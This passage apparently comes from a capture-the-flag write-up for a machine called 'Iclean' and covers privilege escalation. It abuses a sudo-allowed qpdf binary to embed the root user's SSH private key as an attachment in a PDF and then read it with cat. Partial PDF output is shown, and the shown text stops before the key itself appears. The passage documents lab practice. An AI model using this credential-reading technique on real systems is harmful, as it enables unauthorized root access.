 when looking at the help command of this file there is the **add-attachment** parameter which looks very interesting. Seeing that this runs as root we might be able to extract for example the ssh key of the root user.

![Sudo -l](/assets/img/Iclean/Iclean_13.png)


After some further investigation of this command we'd end up with the following command. This command will then add the ssh key of the root user into a pdf file as attachment.

```bash
sudo /usr/bin/qpdf --empty /tmp/key.pdf --qdf  --add-attachment /root/.ssh/id_rsa --
```

Then we read the content of the pdf file with cat and we can clearly see an ssh key present near the bottom of the file

```bash 
cat key.pdf
```
output
```
%PDF-1.3
%����
%QDF-1.0

%% Original object ID: 1 0
1 0 obj
<<
  /Names <<
    /EmbeddedFiles 2 0 R
  >>
  /PageMode /UseAttachments
  /Pages 3 0 R
  /Type /Catalog
>>
endobj

%% Original object ID: 5 0
2 0 obj
<<
  /Names [
```